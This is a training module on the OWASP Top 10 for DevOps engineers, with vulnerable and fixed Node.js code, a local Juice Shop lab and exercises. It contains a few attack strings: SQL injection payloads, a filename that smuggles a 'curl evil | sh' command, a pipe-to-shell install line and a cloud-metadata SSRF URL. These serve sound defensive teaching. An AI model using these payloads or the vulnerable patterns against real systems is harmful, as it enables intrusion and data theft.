


# L11.5 — OWASP Top 10

> **Level 11: Security / DevSecOps** · Topic 5 of 13 · ⏱ ~6 hours · Difficulty: Intermediate

## 1. What it is

The **OWASP Top 10** is a ranked awareness list of the most critical web application security risks, published by the
**Open Worldwide Application Security Project (OWASP)**, a non-profit community. It is compiled from data contributed
by security firms and from community surveys, and refreshed every few years. It is not a complete checklist; it is the
shared vocabulary every developer, tester and auditor uses ("that's an A01").

This topic is organised around the widely cited **2021 edition**, whose ten categories are stable and well documented.
OWASP has since published a newer edition that regroups some categories (for example, it elevates software supply chain
failures and adds mishandling of exceptional conditions), so check owasp.org for the current list. The underlying bug classes
below remain the same, and each section here pairs a small **vulnerable** example with its **fix**, using the `shop-api`
Node.js service.

> **Ethics and scope.** Everything in this topic is for code you own and for deliberately vulnerable practice apps
> (OWASP Juice Shop) that you run **on your own machine**. Never test against systems you do not own or do not
> have written permission to test.

## 2. Why it matters in DevOps

- **DevOps owns the pipeline and the runtime.** Most Top 10 risks are fixed in code, but they are *found* by pipeline stages
  (SAST, dependency, container and DAST scans) and *contained* by infrastructure (network policy, least privilege, WAF, logging).
- **Shift-left is cheaper.** A fix in a pull request costs minutes; the same bug in production costs an incident, a disclosure
  and possibly regulatory fines.
- **The categories map to operational work:** patching (A06), configuration baselines (A05), secrets and crypto (A02),
  logging and alerting (A09), supply-chain integrity (A08). These are DevOps tasks.
- **Interviews and audits** (PCI DSS, SOC 2) refer to the Top 10 by name.

## 3. Real-world system example

**Equifax (2017):** attackers exploited a known remote-code-execution flaw in Apache Struts (CVE-2017-5638) on a
public-facing application. A fix had been available before the breach, so it is the textbook case for **A06: Vulnerable
and Outdated Components**: the failure was patch and inventory management, not a novel attack.

**Capital One (2019):** an attacker abused a server-side request forgery (SSRF) weakness through a misconfigured web
application firewall to make the server call the EC2 instance metadata service, retrieved temporary credentials of an
overly permissive IAM role and then read data from S3 buckets. It combines **A10: SSRF**, **A05: Security
Misconfiguration** and excessive privileges ([least-privilege IAM](02-least-privilege-iam.md)). AWS later added IMDSv2, a
session-token-based metadata service that makes this class of attack harder.

**Log4Shell (December 2021, CVE-2021-44228):** a remote code execution bug in the widely embedded Java logging library
Log4j showed that an unseen transitive dependency can be the weakest link. Teams without a **software bill of materials
(SBOM)** spent days just finding where Log4j ran ([Container Image Scanning](09-container-image-scanning.md)).

## 4. Diagram

Where each risk is typically detected in a delivery pipeline:



A broken-access-control request (A01) and the fix, as a sequence:



## 5. How it works

| ID | Category (2021) | One-line meaning | Primary defence |
|----|-----------------|------------------|-----------------|
| A01 | Broken Access Control | Users act outside their permissions (IDOR, missing checks) | Deny by default, check ownership server-side on every request |
| A02 | Cryptographic Failures | Sensitive data unprotected: weak hashes, no TLS, hard-coded keys | Modern algorithms, TLS everywhere, managed keys |
| A03 | Injection | Untrusted input interpreted as code (SQL, OS command, NoSQL, XSS) | Parameterised queries, output encoding, allowlist validation |
| A04 | Insecure Design | Flaws in the logic/architecture, not the code | Threat modelling, abuse cases, rate limits, secure design patterns |
| A05 | Security Misconfiguration | Defaults, verbose errors, open cloud storage, missing headers | Hardened baselines, IaC scanning, minimal features |
| A06 | Vulnerable and Outdated Components | Known-vulnerable libraries, images, runtimes | Inventory, SCA, automated updates |
| A07 | Identification and Authentication Failures | Weak login, session and credential handling | MFA, rate limits, strong session management |
| A08 | Software and Data Integrity Failures | Unverified updates, unsafe deserialization, tampered pipelines | Signatures, checksums, pinned dependencies, protected CI |
| A09 | Security Logging and Monitoring Failures | Attacks go unnoticed | Log security events, alert, retain, never log secrets |
| A10 | Server-Side Request Forgery | Server fetches attacker-chosen URLs | Allowlist destinations, block internal ranges, IMDSv2 |

### Vulnerable code and fixes

**A01 — Broken Access Control (IDOR).**
```js
// VULNERABLE: any logged-in user can read any order by guessing ids
app.get('/orders/:id', auth, async (req, res) => {
  const { rows } = await db.query('SELECT * FROM orders WHERE id = $1', [req.params.id]);
  res.json(rows[0]);
});

// FIXED: ownership is part of the query, and a miss looks like "not found"
app.get('/orders/:id', auth, async (req, res) => {
  const { rows } = await db.query(
    'SELECT * FROM orders WHERE id = $1 AND user_id = $2', [req.params.id, req.user.id]);
  if (!rows[0]) return res.sendStatus(404);
  res.json(rows[0]);
});
```

**A02 — Cryptographic Failures.**
```js
// VULNERABLE: fast unsalted hash, trivially cracked with rainbow tables and GPUs
const digest = crypto.createHash('md5').update(password).digest('hex');

// FIXED: salted, deliberately slow, memory-hard hash (argon2 or bcrypt libraries are equally good)
import { scryptSync, randomBytes, timingSafeEqual } from 'node:crypto';
const salt = randomBytes(16);
const stored = `scrypt$${salt.toString('hex')}$${scryptSync(password, salt, 64).toString('hex')}`;
// verify: recompute with the stored salt and compare with timingSafeEqual
```
Also: serve everything over HTTPS, set `Strict-Transport-Security`, and keep keys out of code ([Secrets Management](04-secrets-management-and-encryption.md)).

**A03 — Injection (SQL and OS command).**
```js
// VULNERABLE: input is concatenated into the query
db.query(`SELECT id, name, price FROM products WHERE name = '${req.query.name}'`);
// name=x' OR '1'='1  returns every row. With UNION it can read other tables.

// FIXED: parameters keep data separate from code
db.query('SELECT id, name, price FROM products WHERE name = $1', [req.query.name]);
```
```js
// VULNERABLE: a shell parses the filename, so "a.png; curl evil | sh" executes
exec(`convert ${req.body.file} out.jpg`);
// FIXED: no shell, arguments passed as an array, input validated against an allowlist
if (!/^[\w.-]+\.png$/.test(req.body.file)) return res.sendStatus(400);
execFile('convert', [req.body.file, 'out.jpg']);
```
Cross-site scripting (XSS) is injection into HTML: never build HTML by string concatenation; use a framework that escapes by default
and set a `Content-Security-Policy`.

**A04 — Insecure Design.**
```js
// VULNERABLE DESIGN: the client decides the price, and the 4-digit reset code can be brute-forced
app.post('/checkout', (req, res) => charge(req.user, req.body.total));
app.post('/reset', (req, res) => check(req.body.email, req.body.code4digits));

// FIXED: compute totals server-side from the catalogue, make reset tokens 128-bit random,
// single-use, expiring, and rate limited per account and per IP
const total = items.reduce((sum, i) => sum + catalogue[i.sku].price * i.qty, 0);
const token = crypto.randomBytes(16).toString('hex');   // store only its hash, expire in 15 minutes
```
There is no scanner for this one: it is found in design reviews and threat modelling ("what if someone abuses this endpoint 1000 times a second?").

**A05 — Security Misconfiguration.**
```js
// VULNERABLE: debug stack traces, permissive CORS, framework banner, default admin password
app.use(cors({ origin: '*', credentials: true }));
app.use((err, req, res, next) => res.status(500).send(err.stack));

// FIXED: secure headers, specific CORS origin, generic error to the client, details in the log
import helmet from 'helmet';
app.disable('x-powered-by'); app.use(helmet());
app.use(cors({ origin: 'https://shop.example.com' }));
app.use((err, req, res, next) => { req.log.error({ err }, 'unhandled'); res.status(500).json({ error: 'internal_error' }); });
```
Scan infrastructure definitions too (`trivy config .` finds public buckets, open security groups and root containers).

**A06 — Vulnerable and Outdated Components.**
```bash
# VULNERABLE: no lockfile, never updated, nobody knows what runs
npm install express@^3          # years of unpatched issues

# FIXED: commit the lockfile, install reproducibly, audit and update on a schedule
npm ci && npm audit --audit-level=high
# plus .github/dependabot.yml for automatic update PRs (see L11.10)
```

**A07 — Identification and Authentication Failures.**
```js
// VULNERABLE: unlimited guesses, user enumeration through different messages, predictable session id
if (!user) return res.send('no such user');
if (user.pw !== req.body.pw) return res.send('wrong password');
res.cookie('sid', String(user.id));

// FIXED: same message for both, rate limited, hashed passwords, random session id, secure cookie flags
res.status(401).json({ error: 'invalid_credentials' });
res.cookie('sid', randomBytes(32).toString('hex'), { httpOnly: true, secure: true, sameSite: 'lax' });
```
Details of sessions, MFA and password storage are in [Authentication and Authorization](06-authentication-and-authorization.md).

**A08 — Software and Data Integrity Failures.**
```js
// VULNERABLE: deserialising untrusted data with a library that can execute code
const obj = require('node-serialize').unserialize(req.body.cookie);
// VULNERABLE: installing tooling without verifying what you downloaded
//   curl -sSL https://example.net/install.sh | sh

// FIXED: plain data formats plus schema validation; verify checksums or signatures
const obj = schema.parse(JSON.parse(req.body.cookie));
//   curl -fsSLO https://example.net/tool.tgz && echo "<SHA256>  tool.tgz" | sha256sum -c -
```
Pin GitHub Actions to a full commit SHA, verify image signatures (Sigstore cosign), and protect your CI as carefully as production. The 2020 SolarWinds
compromise, in which attackers inserted malicious code into the vendor's build and update process, is the best-known example of why this category exists.

**A09 — Security Logging and Monitoring Failures.**
```js
// VULNERABLE: failures are silent, and the log line contains the password
console.log('login', req.body.email, req.body.password);

// FIXED: log the event (who, what, outcome, source), never the secret, and alert on bursts
req.log.warn({ event: 'login_failed', email: req.body.email, ip: req.ip }, 'authentication failure');
```
Ship the logs somewhere central ([structured logging](../level-10-observability/05-structured-logging.md)) and alert on spikes of 401, 403 and 429.

**A10 — Server-Side Request Forgery (SSRF).**
```js
// VULNERABLE: the server fetches any URL, including http://169.254.169.254/ (cloud metadata) or internal admin pages
const r = await fetch(req.query.url);

// FIXED: allowlist of hosts, https only, resolve the name and reject private ranges
const u = await safeUrl(req.query.url);   // checks protocol, hostname allowlist, then rejects 10/8, 127/8, 169.254/16, 172.16/12, 192.168/16
const r = await fetch(u, { redirect: 'error' });
```
Infrastructure defence in depth: enforce IMDSv2 on EC2, deny egress to metadata addresses from application containers, and keep roles narrow.

## 6. Step-by-step guide

**Prerequisites:** Docker, Node.js 20+ (22 recommended), a terminal. Free, local, no cloud account.
**Scope:** you will attack only a Juice Shop container bound to `127.0.0.1` on your own machine. Do not point these techniques at anything else.

1. **See injection happen in a 20-line lab (no Docker needed).** Node 22 ships a built-in SQLite module.
   ```bash
   mkdir -p ~/owasp-lab && cd ~/owasp-lab
   cat > sqli.mjs <<'EOF'
   import { DatabaseSync } from 'node:sqlite';
   const db = new DatabaseSync(':memory:');
   db.exec("CREATE TABLE products(id INTEGER PRIMARY KEY, name TEXT, price REAL, secret TEXT)");
   db.exec("INSERT INTO products(name,price,secret) VALUES ('mug',9.5,'internal-cost-3'),('hat',15,'internal-cost-7')");
   const name = "x' OR '1'='1";
   const bad  = db.prepare(`SELECT id,name,price FROM products WHERE name = '${name}'`).all();
   console.log('vulnerable rows:', bad.length);
   const good = db.prepare('SELECT id,name,price FROM products WHERE name = ?').all(name);
   console.log('parameterised rows:', good.length);
   EOF
   node --no-warnings sqli.mjs
   ```
   Expected output: `vulnerable rows: 2` then `parameterised rows: 0`. Same input, opposite outcome; the only change is parameter binding.

2. **Start OWASP Juice Shop locally**, a deliberately insecure shop maintained by OWASP for training.
   ```bash
   docker run -d --name juice-shop -p 127.0.0.1:3000:3000 bkimminich/juice-shop
   curl -s -o /dev/null -w "%{http_code}\n" http://127.0.0.1:3000
   ```
   Expect `200`. Open http://127.0.0.1:3000 in a browser. Juice Shop has a built-in score board (find its path by reading the page's JavaScript or using the hints in the OWASP project documentation) that lists challenges tagged by Top 10 category.

3. **A01: look for an IDOR.** Register two accounts (use fake emails such as `a@example.com`, `b@example.com`), add items to each basket, then watch the browser's Network tab. The basket API takes a numeric id; change it to the other account's id and observe whether the server checks ownership. Write down the request and which fix from section 5 applies.

4. **A03: try a classic SQL injection on the login form.** In Juice Shop's login, enter an email such as `' OR 1=1--` and any password. Explain from the response why the login query must be concatenating strings, and rewrite the equivalent server code with a parameterised query.

5. **A05: inspect the response headers.**
   ```bash
   curl -sI http://127.0.0.1:3000 | head -20
   ```
   Note which security headers (`Content-Security-Policy`, `Strict-Transport-Security`, `X-Content-Type-Options`) are missing or weak, and what `helmet()` would add.

6. **A06: scan the app's dependencies and image** (Trivy is covered in [L11.9](09-container-image-scanning.md)).
   ```bash
   docker run --rm -v /var/run/docker.sock:/var/run/docker.sock aquasec/trivy:latest image --severity HIGH,CRITICAL bkimminich/juice-shop
   ```
   Expect a long table of known CVEs (Juice Shop intentionally ships vulnerable packages). Count the HIGH and CRITICAL findings.

7. **Fix a vulnerable route in your own `shop-api`.** Take the A01 and A03 vulnerable snippets from section 5, paste them into a small Express app, exploit them with `curl`, then apply the fixes and show the exploit fails. Commit both versions to a branch so a reviewer can diff them.

8. **Clean up.**
   ```bash
   docker rm -f juice-shop
   ```

## 7. Real-world scenario

*Illustrative, not a documented incident.* A bug bounty researcher emails the `shop-api` team: by changing the number in
`GET /api/orders/1042` she can read other customers' orders. Logs show 40,000 sequential requests over two hours from one
IP, and nothing alerted because only 5xx errors were monitored. The root cause is an A01 IDOR with sequential ids; the
detection gap is A09.

The immediate fix adds `AND user_id = $2` to every order query, followed by an automated test that logs in as user A and
requests user B's order ID expecting `404`. Then the team moves to non-guessable UUID ids (defence in depth, not a substitute), adds
rate limiting and an alert on high rates of 404 from a single client, and adds an OWASP ZAP scan to the pipeline
([L11.13](13-dast-with-owasp-zap.md)). They also notify affected customers per their legal obligations.

**Lesson:** access control must be enforced on the server for every object, and "nothing was wrong in the dashboards"
usually means the dashboards measured the wrong things.

## 8. Common mistakes and best practices

**Don't**

- Rely on hiding the URL, a client-side check or an obscure id as your access control.
- Build SQL, shell commands or HTML with string concatenation of user input.
- Validate only on the client, or only by blocklisting "bad" characters.
- Show stack traces, SQL errors or version banners to users.
- Run scanners as a one-off audit and then ignore the report.
- Treat the Top 10 as a complete checklist; it is a floor.

**Do**

- Deny by default and enforce authorisation server-side per object and per function.
- Use parameterised queries, framework escaping, schema validation and the least-privileged database user.
- Keep dependencies, base images and runtimes patched with automation ([L11.10](10-dependency-scanning.md)).
- Threat-model new features ("how would I abuse this?") before building them.
- Log security events centrally, alert on anomalies and rehearse the response.
- Run SAST, SCA, secrets, image and DAST scans in CI, and fail the build on agreed severities.

## 9. Tasks

- [ ] **T1 — Run the injection lab** *(≈20 min, beginner)*
  - **Goal:** observe string-built SQL versus parameterised SQL.
  - **Steps:**
    1. Run `sqli.mjs` from step 1.
    2. Change the payload to `x' UNION SELECT id, secret, 0 FROM products--` and run the vulnerable query.
    3. Run it through the parameterised version.
  - **Done when:** the vulnerable query leaks the `secret` column values and the parameterised one returns zero rows.

- [ ] **T2 — Map ten Juice Shop findings to the Top 10** *(≈90 min, intermediate)*
  - **Goal:** build the vocabulary by exploiting a local sandbox.
  - **Steps:**
    1. Run Juice Shop on `127.0.0.1` only (step 2).
    2. Solve at least five challenges from different categories using its in-app hints.
    3. For each, write the A-number, the exploit in one sentence and the fix in one sentence.
  - **Done when:** you have a table of at least five rows covering at least four different categories.

- [ ] **T3 — Fix an IDOR with a regression test** *(≈45 min, intermediate)*
  - **Goal:** turn a vulnerability into a permanent automated check.
  - **Steps:**
    1. Create a minimal Express app with `/orders/:id` as in the A01 vulnerable snippet and two users.
    2. Write a test (Node's built-in `node:test`) that logs in as user A and requests user B's order.
    3. Watch the test fail, apply the fix, watch it pass.
  - **Done when:** the test fails on the vulnerable version and passes on the fixed one.

- [ ] **T4 — Harden headers and errors** *(≈30 min, intermediate)*
  - **Goal:** remove A05 findings.
  - **Steps:**
    1. Add `helmet`, a specific CORS origin and a generic error handler to a sample Express app.
    2. Compare `curl -sI` output before and after.
    3. Trigger an exception and confirm the response has no stack trace.
  - **Done when:** the after-output shows `Content-Security-Policy` and `X-Content-Type-Options`, no `X-Powered-By`, and the error body is `{"error":"internal_error"}`.

- [ ] **T5 — Break and fix SSRF in a safe sandbox** *(≈45 min, advanced)*
  - **Goal:** understand why metadata services matter.
  - **Steps:**
    1. Write a tiny local Express endpoint that fetches `req.query.url`, plus a second local server on `127.0.0.1:9000` that plays the role of an "internal admin service".
    2. Request the internal service through your endpoint to prove the SSRF.
    3. Add the allowlist and private-range check from section 5 and retest.
  - **Done when:** the first call returns the internal page and the second returns an error (`host not allowed`).

- [ ] **T6 — Prove it: explain a breach from the Top 10** *(≈30 min, advanced)*
  - **Goal:** connect categories to real events.
  - **Steps:**
    1. Without notes, explain Equifax 2017 or Capital One 2019 in five sentences: the category or categories, the root cause, and two controls that would have helped (one in code, one in infrastructure or process).
    2. Name which pipeline stage from the section 4 diagram would catch each control.
  - **Done when:** a teammate can restate the attack path and the two controls from your explanation.

## 10. Self-check questions

1. Why is "the user id is in the JWT" not enough to prevent an IDOR?
2. What is the difference between validating input and parameterising a query? Do you need both?
3. Which Top 10 category does an unpatched dependency fall under, and what pipeline stage detects it?
4. Why can't a vulnerability scanner find most A04 Insecure Design issues?
5. How does IMDSv2 reduce the impact of an SSRF bug?

<details>
<summary>Answers</summary>

1. Knowing who the caller is (authentication) says nothing about whether that caller may access object 1042; the server must check ownership or permission for every object.
2. Parameterisation prevents data from being interpreted as SQL; validation rejects malformed or out-of-policy input and reduces other attacks. Use both; parameterisation is the one that stops SQL injection.
3. A06 Vulnerable and Outdated Components; software composition analysis (dependency and image scans) in CI plus continuous monitoring.
4. The flaw is in the intended behaviour (a missing limit, an unsafe workflow), not in a recognisable code pattern; it is found by design review, threat modelling and tests of abuse cases.
5. It requires a session token obtained with a PUT request carrying a custom header, which simple SSRF primitives (a blind GET, for example) usually cannot produce, and limits hop count, so stolen credentials are far harder to obtain.
</details>

## 11. Further reading

- OWASP Top 10 project page and the OWASP Cheat Sheet Series (owasp.org), especially the SQL Injection Prevention, Authorization and SSRF Prevention cheat sheets.
- OWASP Juice Shop project documentation and its companion book *Pwning OWASP Juice Shop*.
- OWASP Application Security Verification Standard (ASVS) for a full requirements checklist.
- *The Web Application Hacker's Handbook* by Stuttard and Pinto, and PortSwigger's Web Security Academy (free labs).

<!-- nav -->
---
← Previous: [Secrets Management and Encryption](04-secrets-management-and-encryption.md) · [Level 11 index](README.md) · Next: [Authentication and Authorization](06-authentication-and-authorization.md) →
